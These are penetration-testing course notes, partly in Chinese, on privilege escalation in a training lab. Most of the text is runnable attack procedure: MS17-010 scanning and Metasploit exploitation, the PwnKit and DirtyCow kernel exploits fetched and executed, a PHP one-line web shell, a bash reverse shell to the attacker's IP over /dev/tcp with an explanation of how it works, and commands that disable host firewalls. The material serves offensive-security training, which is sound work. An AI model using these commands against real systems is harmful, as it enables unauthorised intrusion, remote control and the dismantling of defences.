 Penetration Test - Privilege Escalation
===

🔙 [MENU README](../README.md#note)


# iLab
Module 6 
```
Parrot Security       192.168.0.18    172.19.19.18
Windows Server 2019   192.168.0.20
Windows Server 2008   192.168.0.7, 21
SSH Server            192.168.0.70
WordPress             192.168.0.24
```

---

> PayloadsAllTheThings
> https://github.com/swisskyrepo/PayloadsAllTheThings

# MS17-010
Detect and Scan
```bash

nmap 192.168.0.7 -sVC -n -Pn
# 發現port 445

nmap 192.168.0.7 -sVC -n -Pn -p445 --script smb-protocols.nse
# 對 port 445深度探測，發現版本smb v1
# SMBv1 有 MS17_010 漏洞

nmap 192.168.0.7 -sVC -n -Pn -p445 --script smb-vuln-ms17-010.nse
# 針對 MS17_010 漏洞 進行探測


# Nmap中的Script : ls /usr/share/nmap/scripts/
```
Metasploit
```bash
msfconsole -q # without banner

# set paylaod
msf > search ms17_010
msf > use 2
msf > show options
msf > set rhosts 192.168.0.7
msf > check
msf > exploit  # Attack Success when see "WIN"


# WIN
getuid  # Server username: NT AUTHORITY\SYSTEM
shell
whoami
```

# Sudo
```bash
# su    切換至目標帳號/需要目標帳號密碼
# sudo  預授權
#        是否需要驗證(自己的密碼)
#        路徑、檔名、參數  ex. /bin/target -i


sudo -l
# (ALL:ALL) ALL

sudo -i
# 直接提權
```
```bash
# 去百科全書查找
GTFOBins
```

# PwnKit
低版本Kernel的通殺提權
> https://github.com/ly4k/PwnKit
```bash
# Version Check
uname -a

wget https://github.com/ly4k/PwnKit/raw/main/PwnKit
wget https://github.com/ly4k/PwnKit/raw/main/PwnKit32

# Pass1
sudo python3 -m http.server 80
wget 192.168.0.18/PwnKit
# Pass2
scp PwnKit aleksander@192.168.0.70:~/. #dolphin

# 一般kernel exploit希望執行的路徑有寫入權限
# /tmp是不錯的選擇
chmod +x PwnKit && ./PwnKit
```

# DirtyCow
```bash
# 更低版本的Linux : Linux Kernel 2.6.22 < 3.9
# https://www.exploit-db.com/exploits/40847
searchsploit -m 40847

# Pass1
sudo python3 -m http.server 80
wget 192.168.0.18/40847.cpp
# Pass2
scp 40847.cpp aleksander@192.168.0.70:~/.

# how to use : head 40847.cpp
g++ -Wall -pedantic -02 -std=c++11 -pthread -o dcow 40847.cpp -lutil
./dcow -s
```
```bash
# https://github.com/FireFart/dirtycow/blob/master/README.md
```

# Egress Busting (Remote Control)
Ubuntu(Wordpress)一句話木馬
```bash
# shell.php
<?php system($_GET['cmd']); ?>

curl 192.168.0.24/shell.php?cmd=id
curl -G 192.168.0.24/shell.php --data-urlencode "cmd=id"
# -G : get

# Get Remote Control
nc -vnlp 8888
curl -G 192.168.0.24/shell.php --data-urlencode "cmd=bash -c 'bash -i > /dev/tcp/192.168.0.18/8888 0<&1 2>&1'"
```
Reverse Shell的形成
```bash
# shell
BASH 、 DASH 、ZSH
# shell I/O fild descripter
fd 0  stdin
fd 1  stdout
fd 2  stderr

pidof bash
ls - l /proc/98793/fd
# 觀察:
# 當process運行時會產生一PID，相對的會映射fd到目錄

# ==============================================

# console
tty : 只存在於本機
pty : 遠端模擬tty
# console I/O
stdin  0
stdout 1
stderr 2

python2
python2 --version 2> /dev/null
# 觀察 : 
# python2其實是把版號是把輸出放在stderr
```
```bash
bash -i > /dev/tcp/192.168.0.18/8888 0<&1 2>&1

bash -i : 互動
>       : 1>    將這台機器的BASH的stdout到socket
0<&1    : 0<fd1 將這台機器的BASH的stdin來源設定為stdout
          但前面已經設定stdout來自socket
2>&1    : 將這台機器的BASH的stderr導向BASH的stdout
          但前面已經設定stdout來自socket

至此所有目標機器上的輸出入都跟socket對接起來
```
Test 可以用來反彈的port
```bash
# Attacker
sudo tcpdump -ni eth0 tcp[13]==2

# Victim(with nc)
nc -nz 192.168.0.18 1-10

# Victim(without nc)
echo > /dev/tcp/192.168.0.18/100
for port in {200..210};do (echo > /dev/tcp/192.168.0.18/$port) 2> /dev/null;done
```

---


# Persistent
Windows
```bash
# Display Firewall Setting
netsh advf show allprofiles

# 禁用防火牆
netsh firewall set opmode disable # old version
netsh advf set allprofiles state off # new version
```
Linux
```bash
# Display iptables Setting
sudo iptables -S

sudo iptables -P INPUT ACCEPT  #允許所有INBOUND
sudo iptables -P OUTPUT ACCEPT #允許所有OUTBOUND

sudo iptables -F #flush所以有防火牆規則
# 不建議，因為很多靶機其實預設是全擋
```